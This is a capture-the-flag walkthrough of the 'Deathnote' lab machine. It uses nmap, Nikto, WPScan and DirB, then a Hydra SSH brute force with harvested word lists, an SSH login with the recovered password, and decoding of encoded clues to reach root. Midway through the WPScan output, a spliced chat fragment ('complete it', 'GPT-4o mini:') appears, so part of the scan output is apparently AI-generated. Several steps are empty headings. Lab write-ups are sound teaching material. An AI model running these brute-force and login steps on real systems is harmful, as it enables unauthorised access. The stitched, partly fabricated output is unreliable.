




**Target IP Address:** 10.0.2.6

---

## Information Gathering

### Open Ports
The following ports were identified as open on the target IP address using Nmap:

```bash
└─$ nmap -p- 10.0.2.6
Starting Nmap 7.94SVN (https://nmap.org) at 2024-11-20 10:56 GMT
Nmap scan report for 10.0.2.6
Host is up (0.0019s latency).
Not shown: 65533 closed tcp ports (conn-refused)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 31.91 seconds
```

A more detailed service version scan was performed on the open ports:

```bash
└─$ sudo nmap -sV 10.0.2.6 -p 22,80
Starting Nmap 7.94SVN (https://nmap.org) at 2024-11-20 10:59 GMT
Nmap scan report for 10.0.2.6
Host is up (0.0013s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
80/tcp open  http    Apache httpd 2.4.38 ((Debian))
MAC Address: 08:00:27:C3:E7:E8 (Oracle VirtualBox virtual NIC)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/.
Nmap done: 1 IP address (1 host up) scanned in 6.37 seconds
```

### Vulnerability Scanning
A vulnerability scan was conducted using Nikto:

```bash
└─$ nikto -url 10.0.2.6 -C all
- Nikto v2.5.0
---------------------------------------------------------------------------
+ Target IP:          10.0.2.6
+ Target Hostname:    10.0.2.6
+ Target Port:        80
+ Start Time:         2024-11-20 11:01:59 (GMT0)
---------------------------------------------------------------------------
+ Server: Apache/2.4.38 (Debian)
+ /: The anti-clickjacking X-Frame-Options header is not present. See: https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/X-Frame-Options
+ /: The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type. See: https://www.netsparker.com/web-vulnerability-scanner/vulnerabilities/missing-content-type-header/
+ Apache/2.4.38 appears to be outdated (current is at least Apache/2.4.54). Apache 2.2.34 is the EOL for the 2.x branch.
+ /: Server may leak inodes via ETags, header found with file /, inode: c5, size: 5cb285991624e, mtime: gzip. See: http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2003-1418
+ OPTIONS: Allowed HTTP Methods: GET, POST, OPTIONS, HEAD.
+ /manual/: Web server manual found.
+ /manual/images/: Directory indexing found.
+ /icons/README: Apache default file found. See: https://www.vntweb.co.uk/apache-restricting-access-to-iconsreadme/
+ /wordpress/wp-content/plugins/akismet/readme.txt: The WordPress Akismet plugin 'Tested up to' version usually matches the WordPress version.
+ /wordpress/wp-links-opml.php: This WordPress script reveals the installed version.
+ /wordpress/wp-admin/: Uncommon header 'x-redirect-by' found, with contents: WordPress.
+ /wordpress/: Drupal Link header found with value: <http://deathnote.vuln/wordpress/index.php/wp-json/>; rel="https://api.w.org/". See: https://www.drupal.org/
+ /wordpress/: A WordPress installation was found.
+ /wordpress/wp-login.php?action=register: Cookie wordpress_test_cookie created without the httponly flag. See: https://developer.mozilla.org/en-US/docs/Web/HTTP/Cookies
+ /wordpress/wp-content/uploads/: Directory indexing found.
+ /wordpress/wp-content/uploads/: WordPress uploads directory is browsable. This may reveal sensitive information.
+ /wordpress/wp-login.php: WordPress login found.
+ 26640 requests: 0 error(s) and 17 item(s) reported on remote host
+ End Time:           2024-11-20 11:03:22 (GMT0) (83 seconds)
---------------------------------------------------------------------------
+ 1 host(s) tested
```

A WordPress security scan was performed using WPScan:

```bash
$ wpscan --url http://deathnote.vuln/wordpress/
_______________________________________________________________
         __          _______   _____
         \ \        / /  __ \ / ____|
          \ \  /\  / /| |__) | (___   ___  __ _ _ __ ®
           \ \/  \/ / |  ___/ \___ \ / __|/ _` | '_ \
            \  /\  /  | |     ____) | (__| (_| | | | |
             \/  \/   |_|    |_____/ \___|\__,_|_| |_|

         WordPress Security Scanner by the WPScan Team
                         Version 3.8.27
       Sponsored by Automattic - https://automattic.com/
       @_WPScan_, @ethicalhack3r, @erwan_lr, @firefart
_______________________________________________________________

[+] URL: http://deathnote.vuln/wordpress/ [10.0.2.6]
[+] Started: Fri Nov 29 10:08:00 2024

Interesting Finding(s):

[+] Headers
 | Interesting Entry: Server: Apache/2.4.38 (Debian)
 | Found By: Headers (Passive Detection)
 | Confidence: 100%

[+] XML-RPC seems to be enabled: http://deathnote.vuln/wordpress/xmlrpc.php
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%
 | References:
 |  - http://codex.wordpress.org/XML-RPC_Pingback_API
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_ghost_scanner/
 |  - https://www.rapid7.com/db/modules/auxiliary/dos/http/wordpress_xmlrpc_dos/
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_xmlrpc_login/
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_pingback_access/

[+] WordPress readme found: http://deathnote.vuln/wordpress/readme.html
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%

[+] Upload directory has listing enabled: http://deathnote.vuln/wordpress/wp-content/uploads/
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%

[+] The external WP-Cron seems to be enabled: http://deathnote.vuln/wordpress/wp-cron.php
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 60%
 | References:
 |  - https://www.iplocation.net/defend-wordpress-from-ddos
 |  - https://github.com/wpscanteam/wpscan/issues/1299

[+] WordPress version 5.8 identified (Insecure, released on 2021-07-20).
 | Found By: Rss Generator (Passive Detection)
 |  - http://deathnote.vuln/wordpress/index.php/feed/, <generator>https://wordpress.org/?v=5.8</generator>
 |  - http://deathnote.vuln/wordpress/index.php/comments/feed/, <generator>https://wordpress.org/?v=5.8</generator>

[+] WordPress theme in use: Twenty Twenty-One
 | Location: http://deathnote.vuln/wordpress/wp-content/themes/twentytwentyone/
 | Last Updated: 2024-11-13T00:00:00.000Z
 | Readme: http://deathnote.vuln/wordpress/wp-content/themes/twentytwentyone/readme.txt
 | [!] The version is out of date, the latest version is 2.4
 | Style URL: http://deathnote.vuln/wordpress/wp-content/themes/twentytwentyone/style.css?ver=1.3
 | Style Name: Twenty Twenty-One
 | Style URI: https://wordpress.org/themes/twentytwentyone/
 | Description: Twenty Twenty-One is a blank canvas for your ideas and it makes the block editor your best brush.
 | Author: the WordPress team
 | Author URI: https://wordpress.org/

[+] Enumerating All Plugins (via Passive Methods)
[i] No plugins Found.

[+] Enumerating Config Backups (via Passive and Aggressive Methods)
Checking Config Backups - Time: 00:00:00 <===================================================> (137 / 137) 100.00% Time: 00:00:00
[i] No Config

--------------------

User prompt 3 of 4 - 28/01/2025, 11:05:40:
complete it

GPT-4o mini:
```plaintext
Backups Found.

[!] No WPScan API Token given, as a result vulnerability data has not been output.
[!] You can get a free API token with 25 daily requests by registering at https://wpscan.com/register

[+] Finished: Fri Nov 29 10:08:07 2024
[+] Requests Done: 170
[+] Cached Requests: 5
[+] Data Sent: 46.001 KB
[+] Data Received: 400.879 KB
[+] Memory used: 272.457 MB
[+] Elapsed time: 00:00:06
```

### Directory Bruteforcing
A directory brute force scan was conducted using DirB:

```bash
$ dirb http://10.0.2.6 '/usr/share/wordlists/dirb/common.txt' -r

-----------------
DIRB v2.22    
By The Dark Raver
-----------------

START_TIME: Fri Nov 29 10:13:13 2024
URL_BASE: http://10.0.2.6/
WORDLIST_FILES: /usr/share/wordlists/dirb/common.txt
OPTION: Not Recursive

-----------------

GENERATED WORDS: 4612                                                          

---- Scanning URL: http://10.0.2.6/ ----
+ http://10.0.2.6/index.html (CODE:200|SIZE:197)                                                                                 
==> DIRECTORY: http://10.0.2.6/manual/                                             
+ http://10.0.2.6/robots.txt (CODE:200|SIZE:68)                                    
+ http://10.0.2.6/server-status (CODE:403|SIZE:273)                                
==> DIRECTORY: http://10.0.2.6/wordpress/                                                                                        
-----------------
END_TIME: Fri Nov 29 10:13:22 2024
DOWNLOADED: 4612 - FOUND: 3
```

A second scan was performed specifically on the WordPress directory:

```bash
$ dirb http://10.0.2.6/wordpress '/usr/share/wordlists/dirb/common.txt' -r

-----------------
DIRB v2.22    
By The Dark Raver
-----------------

START_TIME: Fri Nov 29 10:13:34 2024
URL_BASE: http://10.0.2.6/wordpress/
WORDLIST_FILES: /usr/share/wordlists/dirb/common.txt
OPTION: Not Recursive

-----------------

GENERATED WORDS: 4612                                                          

---- Scanning URL: http://10.0.2.6/wordpress/ ----
+ http://10.0.2.6/wordpress/index.php (CODE:301|SIZE:0)                                                                          
==> DIRECTORY: http://10.0.2.6/wordpress/wp-admin/                                                                               
==> DIRECTORY: http://10.0.2.6/wordpress/wp-content/                                                                             
==> DIRECTORY: http://10.0.2.6/wordpress/wp-includes/                                                                            
+ http://10.0.2.6/wordpress/xmlrpc.php (CODE:405|SIZE:42)                                                                        
-----------------
END_TIME: Fri Nov 29 10:13:44 2024
DOWNLOADED: 4612 - FOUND: 2
```

---

### Modifying Hosts File
To resolve the target IP address, it was added to the `/etc/hosts` file:

```bash
$ cat /etc/hosts
127.0.0.1	localhost
127.0.1.1	kali
::1		localhost ip6-localhost ip6-loopback
ff02::1		ip6-allnodes
ff02::2		ip6-allrouters

10.0.2.6        deathnote.vuln
```

### File Retrieval
Files `user.txt` and `notes.txt` were located at the following URL, which may be useful for brute-forcing usernames and passwords:

```bash
$ wget http://deathnote.vuln/wordpress/wp-content/uploads/2021/07/user.txt
```

```bash
$ wget http://deathnote.vuln/wordpress/wp-content/uploads/2021/07/notes.txt
```

### Brute Force Attack
A brute force attack was conducted using Hydra with the retrieved files:

```bash
$ hydra -L user.txt -P notes.txt ssh://10.0.2.6
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2024-11-29

10:26:13
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 731 login tries (l:17/p:43), ~46 tries per task
[DATA] attacking ssh://10.0.2.6:22/
[STATUS] 268.00 tries/min, 268 tries in 00:01h, 465 to do in 00:02h, 14 active
[22][ssh] host: 10.0.2.6   login: l   password: death4me
[STATUS] 263.50 tries/min, 527 tries in 00:02h, 206 to do in 00:01h, 14 active
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2024-11-29 10:29:01
```

### Credentials Found
The following login credentials were successfully retrieved:
- **Username:** L
- **Password:** death4me

### SSH Connection
An SSH connection was established using the obtained credentials:

```bash
$ ssh l@10.0.2.6
l@10.0.2.6's password: 
Linux deathnote 4.19.0-17-amd64 #1 SMP Debian 4.19.194-2 (2021-06-21) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Fri Nov 29 05:31:55 2024
l@deathnote:~$ ls
user.txt
```

### File Content
The content of `user.txt` was retrieved, which was encoded in Brainfuck:

```bash
$ cat user.txt
++++++++++[>+>+++>+++++++>++++++++++<<<<-]>>>>+++++.<<++.>>+++++++++++.------------.+.+++++.---.<<.>>++++++++++.<<.>>--------------.++++++++.+++++.<<.>>.------------.---.<<.>>++++++++++++++.-----------.---.+++++++..<<.++++++++++++.------------.>>----------.+++++++++++++++++++.-.<<.>>+++++.----------.++++++.<<.>>++.--------.-.++++++.<<.>>------------------.+++.<<.>>----.+.++++++++++.-------.<<.>>+++++++++++++++.-----.<<.>>----.--.+++..<<.>>+.--------.<<.+++++++++++++.>>++++++.--.+++++++++.-----------------.
```

This Brainfuck code translates to the message: 
"I think you got the shell, but you won't be able to kill me - Kira."

### Accessing Kira's User Directory
The SSH authorized keys for the Kira user were found in the `kira` user directory:



To gain root privileges, a copy of the authorized keys file was created in the `l` user's directory, as Kira is the only other user and may have root access:



### Switching User to Kira
The user was switched to Kira:



### Retrieving Kira's File
The content of `kira.txt` was accessed:

```bash
kira@deathnote:~$ cat kira.txt
cGxlYXNlIHByb3RlY3Qgb25lIG9mIHRoZSBmb2xsb3dpbmcgCjEuIEwgKC9vcHQpCjIuIE1pc2EgKC92YXIp
```

This Base64 encoded string was decoded:

```bash
$ base64 --decode kira.txt
please protect one of the following 
1. L (/opt)
2. Misa (/var)
```

### Final Password Retrieval
The decoded string was further processed using CyberChef to convert from hex to base64 to plaintext, revealing the password for Kira:

- **Password:** kiraisevil

This password grants root privileges.



---

### Conclusion
The CTF exercise involved a series of reconnaissance, vulnerability scanning, and exploitation techniques to gain access to the target system. The successful retrieval of credentials and subsequent privilege escalation demonstrated the effectiveness of the methodologies employed.